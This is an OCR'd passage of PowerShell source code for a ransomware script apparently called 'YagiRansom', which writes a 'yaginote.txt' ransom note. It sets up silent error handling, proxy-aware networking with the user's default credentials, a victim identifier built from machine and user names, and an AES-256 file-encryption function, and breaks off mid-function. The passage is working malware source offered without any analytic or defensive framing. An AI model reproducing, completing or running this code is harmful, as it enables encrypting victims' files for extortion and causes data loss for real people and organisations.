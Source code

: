 ```python=
# Design
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }
# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null
# Errors
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
```